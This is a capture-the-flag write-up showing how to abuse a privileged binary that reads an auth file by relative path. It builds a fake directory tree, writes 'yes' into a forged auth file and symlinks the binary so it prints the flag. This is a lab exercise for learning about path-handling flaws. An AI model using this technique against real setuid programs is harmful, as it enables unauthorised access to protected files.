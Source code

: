 First of all move to the correct directory by using the *cd* command:
```bash
cd /problems/579fe8ee083cd54f55718c1324687c74
```

Here we find 4 different files by writing **ls**.
The most interesting file is the **C-file**, which we can read by writing:
```bash
cat justno.c
```

In the code we can see that they are mixing relative and exact positions.
```c
Line 8:
../../problems/579fe8ee083cd54f55718c1324687c74/auth

Line 18:
/problems/579fe8ee083cd54f55718c1324687c74/flag
```

This means that one of the files could change without affecting the other one.
This could be abused in some situations, which is exactly what we will do.

Let's go back to our home directory by running the *cd* command without arguments:
```bash
cd
```

Then we will create a folder-structure matching the relative link in the code.
**home**
  **- problems**
    **- 579fe8ee083cd54f55718c1324687c74**
      **- auth**
  **- a**
    **- b**
      **- justno**

*auth* should be a file containing anything other than the text 'no' according to the previous code.
*justno* should be the binary file associated with the *C-file*.
We can however not compile it on our own since then it won't have the correct rights.
The same problem applies if we try to copy the first file.
So what we have to do is to create a symbolic link to the file. This is done by using the *cp* command with the *-s* attribute.

We do this by entering the following commands:
```bash
mkdir a problems
mkdir a/b
mkdir problems/579fe8ee083cd54f55718c1324687c74

echo "yes" > problems/579fe8ee083cd54f55718c1324687c74/auth
cd a/b
cp -s /problems/579fe8ee083cd54f55718c1324687c74/justno ./
./justno
```
